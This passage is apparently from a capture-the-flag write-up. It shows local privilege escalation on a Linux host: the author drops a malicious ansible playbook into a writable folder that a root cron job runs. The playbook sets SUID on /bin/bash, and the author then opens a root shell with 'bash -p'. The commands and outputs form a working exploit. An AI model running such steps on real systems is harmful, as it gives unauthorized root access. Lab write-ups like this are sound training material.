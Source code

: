 ```text
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
```

Phil is able to write in this folder.

There is a cron process running under root account, but no log. When watching running processes (several times at time = 00 seconds), the cron process run some ansible actions :

```shell
ps -efH | grep root | tail -n 20
```

Result:

```text
root      147562     955  0 22:44 ?        00:00:00     /usr/sbin/CRON -f
root      147565  147562  0 22:44 ?        00:00:00       /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
root      147566  147565  0 22:44 ?        00:00:00         /usr/bin/python3 /usr/local/bin/ansible-parallel /opt/automation/tasks/playbook_1.yml
root      147569  147566  0 22:44 ?        00:00:00           /usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml
```

This process run uder user `root`.

### Privilege Escalation

Create a new playbook file in `/opt/automation/tasks/` :

```shell
cat<<EOF > /opt/automation/tasks/playbook_privesc.yml
- hosts: localhost
  tasks:
  - name: Evil
    ansible.builtin.shell: |
	  chmod +s /bin/bash
EOF
```

This will allow any user to open a bash shell as root.

Then, just wait for a minute to the cron job to execute the playbook, and check :

```shell
ls -l /bin/bash
```

Result:

```text
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

and open a shell as root :

```shell
/bin/bash -p
```
